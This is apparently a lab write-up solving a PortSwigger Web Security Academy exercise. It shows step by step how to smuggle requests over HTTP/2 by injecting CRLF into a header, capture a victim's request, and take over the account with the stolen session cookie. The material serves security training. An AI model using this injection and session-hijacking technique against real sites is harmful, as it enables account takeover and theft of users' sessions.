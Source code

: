 # HTTP/2 request smuggling via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

## If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

### The term `CRLF` refers to  `Carriage Return (ASCII 13, \r ) Line Feed (ASCII 10, \n )`

step 1

![screenshot](./images/images_lab13/lab13_search_result_store.png)

step 2
![screenshot](./images/images_lab13/lab13_observe_serach_result_from_history.png)

remove unnecessary header

![screenshot](./images/images_lab13/lab13_remove_some_header.png)

step 3

![screenshot](./images/images_lab13/lab13_send_search_result_test3.png)

step 4
add payload
name:
`foo`
value:
`bar\r\n`
`Transfer-Encoding: chunked`

![screenshot](./images/images_lab13/lab13_add_payload.png)

step 5
add

```
0

search=test3

```

![screenshot](./images/images_lab13/lab13_test_first_payload_not_found.png)

step 6

```
0

POST / HTTP/1.1
Host: 0a1000d2039488e3804bb75b00d800d4.web-security-academy.net
Cookie: session=MymYcTyskuyePyiQBQ83dlZEi5CNcxN8;
Content-Length: 13

search=test3
```

![screenshot](./images/images_lab13/lab13_test_test_another_payload.png)

step 7
unmarked content-Length

![screenshot](./images/images_lab13/lab13_unmark_content_length_test3.png)

step 8
increase content-Length

![screenshot](./images/images_lab13/lab13_increase_content_length.png)

refresh home page you will get Post search result

![screenshot](./images/images_lab13/lab13_refresh_homepage_containg_search_result.png)

step 9

wait for 10 second
increase content-Length
and search must be unique in each case

![screenshot](./images/images_lab13/lab13_increase_content_length_to_850.png)

```
accept-language: en-US,en;q=0.9
cookie: victim-fingerprint=YmIWC1ZZCR96uu0kQRzpkzYfjZqqIOiZ; secret=D9HZfnx9Uirg30BtJgIyBUSnPULD2WWT; session=SG5N4hqr7GwwPgUFDm1qICzHKT8v6efM;
```

step 10
intercept login page with wrong userid and password

![screenshot](./images/images_lab13/lab13_intercept_login_page.png)

step 7

replace session id with victim session id

![screenshot](./images/images_lab13/lab13_change_session_id.png)

![screenshot](./images/images_lab13/lab13_lab_solved.png)
